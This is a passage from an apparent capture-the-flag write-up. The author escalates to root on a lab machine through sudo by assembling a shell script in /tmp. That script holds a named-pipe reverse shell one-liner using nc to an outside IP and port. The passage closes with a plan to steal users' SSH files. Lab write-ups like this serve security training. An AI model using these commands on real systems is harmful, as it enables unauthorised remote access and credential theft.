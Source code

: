 *Success*, we can create a shell script here, now lets try our hacky `cat` concatenation.

```
# first we'll print 'ca' to the file, then the rest
printf 'ca' > /tmp/x.sh;
ls -lah /tmp/x.sh | grep x.sh; # we can see that bytes are added to the file! 
# and the rest...
printf 't /tmp/f | /bin/sh -i 2>&1 | nc -l 10.11.8.219 4444 > /tmp/f;' >> /tmp/x.sh;
ls -lah /tmp/x.sh | grep x.sh; # fingers crossed this'll run! 
# then try run the script with sudo
sudo sh /tmp/x.sh;
# if that fails try normal shell exec
sh /tmp/x.sh;
```

This unfortunately failed; but lets test if the shell script actually runs? It may be an error on our behalf.

```
touch /tmp/y.sh;
printf 'touch /tmp/works.txt; whoami | printf > /tmp/works.txt;' > /tmp/y.sh;
sudo sh /tmp/y.sh;
ls -lah /tmp/;
```

The script _is_ running as `root`, so we're _really_ close. See the `works.txt` file.

```
total 40K
drwxrwxrwt  8 root     root     4.0K Sep 13 14:33 .
drwxr-xr-x 23 root     root     4.0K Sep 13 12:50 ..
drwxrwxrwt  2 root     root     4.0K Sep 13 12:50 .ICE-unix
drwxrwxrwt  2 root     root     4.0K Sep 13 12:50 .Test-unix
drwxrwxrwt  2 root     root     4.0K Sep 13 12:50 .X11-unix
drwxrwxrwt  2 root     root     4.0K Sep 13 12:50 .XIM-unix
drwxrwxrwt  2 root     root     4.0K Sep 13 12:50 .font-unix
prw-r--r--  1 www-data www-data    0 Sep 13 14:04 f
drwx------  3 root     root     4.0K Sep 13 12:50 systemd-private-a938bdfc8fce449a9ca1d228a57f00d8-systemd-timesyncd.service-oSRCc2
-rw-r--r--  1 root     root        0 Sep 13 14:33 works.txt
-rw-r--r--  1 www-data www-data   63 Sep 13 14:30 x.sh
-rw-r--r--  1 www-data www-data   55 Sep 13 14:33 y.sh

```

It seems like it's the `printf` that didn't work, as there're no bytes in the file. Lets try `echo` instead.

```
touch /tmp/y.sh;
echo 'touch /tmp/works2.txt; whoami | echo > /tmp/works2.txt;' > /tmp/y.sh;
sudo sh /tmp/y.sh;
ls -lah /tmp/;
```

Hmm. As we DO have root. Let's see if we can steal some SSH files from either `rick` or `ubuntu`.
